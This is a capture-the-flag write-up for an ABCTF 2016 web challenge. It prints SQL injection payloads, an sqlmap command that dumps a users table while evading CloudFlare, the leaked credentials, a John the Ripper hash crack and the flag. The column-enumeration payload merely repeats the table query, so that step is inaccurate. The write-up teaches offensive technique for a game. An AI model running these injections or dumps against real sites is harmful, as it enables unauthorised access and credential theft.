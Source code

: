 # ABCTF 2016 : impenetrable-fortress-200

**Category:** Web
**Points:** 200
**Solves:** 14
**Description:**

Some times an application is secure and you have to find another way around. Log in with admin credentials and you will receive a flag. Try it [here](http://yrmyzscnvh.abctf.xyz/lastweb/)!

## Write-up

We are presented a website where a username & password prompt is located. The first thought is to try injecting the username parameter, which turns out to be unsuccessful.

After looking at the hint (find the other way around) I looked at the other web challenges present - the title matches with web4, thus I tried my luck there.

Let's enumerate tables first -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #`, getting the tables `webfour` and `users`. The last table is our goldmine, as we can obtain our username / pw combo there.

Let's enumerate columns in `users` table -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #` discovering the column names are `username` and `hashedpassword`.

I could not select the columns from the database (nothing showed on the website) so I used SQLmap to dump the db -> `python sqlmap.py -u "http://yrmyzscnvh.abctf.xyz/web4/" --data "input=1" --random-agent --user-agent='' --dump -D webnine -T users`.  (used random user agent to get rid of CloudFlare)

The dump contains 3 entries:


| username           | hashedpassword                         |
|--------------------|----------------------------------------|
| admin              | 758e04774a12864b5b707dddc131d91d       |
| IntelAgent is cool | PM me this code for nothing: jowlprowl |
| jowls              | jowls                                  |

Using JtR (John the Ripper) with rockyou wordlist we discover that the hash corresponds to `cardoor`.

After logging in we see the flag: `abctf{th3_l4st_0n3_1s_th3_b3st_0n3}`

## Other write-ups and resources

* none yet
